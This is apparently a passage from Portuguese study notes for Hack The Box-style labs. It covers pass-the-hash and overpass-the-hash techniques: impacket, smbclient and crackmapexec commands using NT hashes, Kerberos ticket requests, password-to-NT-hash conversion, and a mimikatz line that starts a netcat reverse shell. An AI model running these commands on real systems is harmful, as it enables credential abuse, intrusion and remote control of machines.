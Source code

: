     wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79

#### SMB

    smbclient //10.0.0.30/Finance -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local

    impacket-psexec 'htb.local/Administrator@10.10.10.103' -hashes :f6b7160bfc91823792e0ac3a162c9267
    impacket-smbexec 'htb.local/Administrator@10.10.10.103' -hashes :f6b7160bfc91823792e0ac3a162c9267

Crackmapexec

    crackmapexec smb 192.168.175.202 -u Administrator -H "<nt_hash>" --lsa

  
## Over pass the hash

O objetivo aqui é para obter um ticket Kerberos, pois caso utilizamos algum recurso que não suporte o NTLM como autenticação, temos a opção de utilizar o ticket kerberos como autenticação.

Para fazer esse tipo de ataque de maneira remota, pordemos utilizar o impacket:

Primeiro requisitamos o TGT:

    impacket-getTGT -dc-ip <IP_do_DC> domain/user:password

ou

    impacket-getTGT -dc-ip <ip_dc> <domain/usuario> -hashes :<nt_hash>

Aqui teremos de [fazer a conversão da senha para o hash NT](#conversa-de-senha-em-texto-claro-para-nt-hash)

Aqui já teremos o .ccache e podemos carregar essa informação no Kali Linux da seguinte maneira:

    export KRB5NAME=/home/acosta/owncloud/Area_de_trabalho/estudos/hack_the_box/scrambled/Administrator.ccache

## Conversão de senha em texto claro para hash NT

    iconv -f ASCII -t UTF-16LE &#x3C;(printf "<senha>") | openssl dgst -md4

ou

    python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "<senha>".encode("utf-16le")).digest()))'


Para conduzir esse ataque, primeiro temos que injetar na memória do nosso processo a credencial do nosso usuário administrativo, por exemplo:

    sekurlsa::pth /user:user1 /domain:home.lab /ntlm:ae974876d974abd805a989ebead86846 /run:".\n.exe -e cmd 192.168.0.76 8089"

Depois disso, temos de fazer uma requisição de rede de algum serviço para carregar o ticket kerberos na memória

    net use \\dc01.home.lab

**Fica como observação que não consegui reproduzir isso no laboratório**
